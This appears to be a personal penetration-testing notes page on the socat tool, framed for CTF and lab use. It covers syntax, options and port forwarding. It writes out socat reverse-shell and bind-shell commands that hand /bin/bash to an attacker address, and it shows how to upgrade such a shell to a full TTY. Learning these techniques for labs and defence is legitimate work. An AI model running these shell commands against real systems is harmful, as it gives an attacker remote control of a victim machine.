 #### Official Documentation: [https://www.kali.org/tools/socat/](https://www.kali.org/tools/socat/)
#### Cheat Sheet: [[Kali Tools#Socat|Socat Commands]]
## Purpose
Socat is like Netcat but more advanced, supporting many protocols, encryption, IPv6, and multiple I/O streams. It’s used for shell upgrades and complex forwarding.

## Scenarios
- CTF: Upgrade a basic reverse shell into a fully interactive TTY.  
- Real world: Forward ports securely, bridge connections, or create encrypted tunnels.

## All needed info to run
- Syntax: `socat <address1> <address2>`.  
- Common uses:
  - Reverse shell: `socat tcp-connect:<ip>:<port> exec:/bin/bash,pty,stderr,sigint,setsid,sane`  
  - Listener: `socat tcp-listen:<port>,reuseaddr,fork exec:/bin/bash,pty,stderr,sigint,setsid,sane`  
  - File transfer or port forwarding: `socat tcp-listen:<port> tcp:<target>:<port>`  
- Options:
  - `pty,stderr,sigint,setsid,sane` → makes shells stable with TTY support.  
  - `fork` → allow multiple connections.  
  - `ssl:` → enable TLS.

## Example commands & outputs
```bash
# Reverse shell (victim to attacker)
Victim: socat tcp-connect:192.168.56.1:4444 exec:/bin/bash,pty,stderr,sigint,setsid,sane
Attacker: socat tcp-listen:4444,reuseaddr,fork -

# Fully interactive shell upgrade
Attacker: socat file:`tty`,raw,echo=0 tcp-listen:4444
Victim: socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.56.1:4444
# Result: fully interactive bash with arrow keys and tab completion

# Port forward
$ socat tcp-listen:8080,reuseaddr,fork tcp:192.168.56.101:80
```

!!! note "Socat Basics"
	- Use `pty,stderr,sigint,setsid,sane` for stable shells.
	- Great for upgrading raw shells into full TTYs.
	- Supports many protocols beyond TCP (UDP, SSL, SOCKS).
	- Can replace Netcat when `-e` is disabled or when advanced features are needed.


### [[Kali Tools#Socat|Socat Commands]]